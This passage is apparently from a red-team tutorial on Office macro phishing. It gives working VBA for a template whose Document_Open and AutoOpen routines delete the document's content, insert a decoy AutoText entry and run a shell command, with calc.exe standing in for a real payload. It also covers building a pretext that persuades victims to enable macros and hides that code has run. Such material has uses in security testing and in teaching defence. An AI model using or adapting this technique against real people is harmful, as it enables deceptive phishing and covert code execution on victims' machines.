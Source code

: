 

Therefore using this approach, once the document is loaded on a victim machine which does not have the same `Normal.dotm` template locally, the Name of the AutoText, in this case "Finance", will throw a reference error. This underlines the need to host the AutoText snippet in a source that can be statically referenced, such as a remote template file.

## Methodology

### Preparing The Template

Create a new template, and then enter the macro editor. The following template calls `Switch` upon opening the file, which swaps out the main content of a document with the contents of the AutoText entry which will be created in the next step. `Shellz` then pops calc.exe as a placeholder for code execution.

```
'FinanceTemplate.dotm
Sub Document_Open()
    Switch
    Shellz
End Sub

Sub AutoOpen()
    Switch
    Shellz
End Sub

Sub Switch()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("Finance").Insert Where:=Selection.Range, RichText:=True
End Sub

Sub Shellz()
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc"
End Sub

```

### Preparing the Pretext and AutoText

Next, input data which will be 'flipped' to once Macros are enabled must be created. Think of this data as the end result of a successful compromise, leaving the user oblivious to the successful code execution while maintaining the pretext's facade with the resultant, observable Office content. In other words, this is the content which the user will be served after being pretexted into enabling the execution of the macro.&#x20;

Come up with a valid pretext and create some convincing content, then select all of it.

![Post-pretext data displayed to user after code execution](../.gitbook/assets/secret\_finance\_data.png)
